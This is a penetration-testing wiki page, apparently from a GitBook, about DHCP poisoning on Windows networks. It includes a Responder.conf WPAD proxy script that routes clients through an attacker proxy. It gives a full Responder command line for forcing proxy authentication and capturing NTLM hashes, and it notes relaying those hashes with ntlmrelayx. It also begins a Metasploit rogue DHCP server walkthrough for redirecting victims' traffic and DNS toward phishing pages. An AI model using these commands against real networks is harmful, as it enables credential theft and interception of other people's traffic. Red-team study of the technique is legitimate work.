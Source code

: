 # ⭕ DHCP Poisoning

When a workstation reboots or plugs into a network, a broadcast DHCP request is emitted. It's goal is to ask for network settings like an IPv4 address.

> Windows uses several custom DHCP options such as NetBIOS, WINS, WPAD settings. When a workstation sends a DHCP request to get its networking settings, these additional settings can be included in the DHCP answer to facilitate straightforward connectivity and name resolution. _(_[_Laurent Gaffié_](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)_)_

​[DHCP's option 252](https://docs.microsoft.com/en-us/previous-versions/tn-archive/bb794881\(v=technet.10\)) provides Windows machines with a WPAD configuration. An attacker able to answer broadcast DHCP queries faster than the legit DHCP server can inject any network setting on the requesting client.

## <mark style="color:red;">Exploitation</mark>

​[Responder](https://github.com/SpiderLabs/Responder) (Python) (from v3.0.7.0) can be used to operate DHCP poisoning in the following manner.

* race against the legit DHCP server to answer `DHCP REQUEST` messages
* sent a DHCP ACK response with a rogue WPAD server address in `option 252` in the network parameters, with a short lease (10 seconds)
* wait the lease to expire so that the poisoned client asks for a new lease
* let the client obtain a legitimate lease from the real DHCP server, allowing the client to obtain the right network settings and have connectivity
* the injected WPAD server address will stay until the client reboots (that's how Windows works )
* with the injected WPAD server address, the Windows client will try to obtain the wpad.dat file on the rogue WPAD. Responder will then require the client to authenticate.

In order to start DHCP poisoning for WPAD spoofing with Responder, the `Responder.conf` file needs to be tweaked.

```
WPADScript = function FindProxyForURL(url, host){if ((host == "localhost") || shExpMatch(host, "localhost.*") ||(host == "127.0.0.1") || isPlainHostName(host)) return "DIRECT"; if (dnsDomainIs(host, "ProxySrv")||shExpMatch(host, "(*.ProxySrv|ProxySrv)")) return "DIRECT"; return 'PROXY ProxySrv:3128; PROXY ProxySrv:3141; DIRECT';}
```

The `ProxySrv` variable (in red in the following screenshot) needs to be replace by the rogue WPAD server (i.e. Responder IP address).

![](<../../../.gitbook/assets/image (261).png>)

The attack can then be started with the `-d/--DHCP` argument.

The `--wredir` and `--ProxyAuth` need to be added to force the Windows client to authenticate once the `wpad.dat` is accessed in order to capture hashes.

```
responder --interface "eth0" --wredir --ProxyAuth --NBTNSdomain --verbose
```

The proxy auth NTLM authentication can either be captured with Responder with the command line above or relayed with [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (by using the `--http-port 3128` argument. The `--wredir` and `--ProxyAuth` arguments need to be removed from Responder's command line.).

{% embed url="https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html" %}

## <mark style="color:red;">Metasploit Rogue DHCP Server</mark>

Since a DHCP server typically provides the default gateway information to client devices, if the DHCP server were to provide another path to the internet, let's say through an attacker machine, the client (victim) machine would accept the new path and forward their packet accordingly. Additionally, changing the DNS server configurations on a client machine to forward all DNS queries to a fake DNS server can result in the loading of phishing web pages on a victim's browser. In this section, we will create a rogue DHCP server to redirect victims' traffic on the network. To get started, we will use the Metasploit framework to create our rogue DHCP server:

1. Enable the PostgreSQL database and Metasploit by using the following commands:
   * &#x20;service postgresql start
   * &#x20;msfconsole
2. Metasploit contains a module that allows us to enable a DHCP server. Use the commands as shown in the following screenshot:

![](<../../../.gitbook/assets/image (49).png>)

We will set the start and end IP addresses, the network broadcast address, the network mask (subnet mask), the DNS server, the default gateway (default router) and the IP address of the rogue DHCP server. The following screenshot demonstrates how to set the values for each parameter:

![](<../../../.gitbook/assets/image (22) (1).png>)
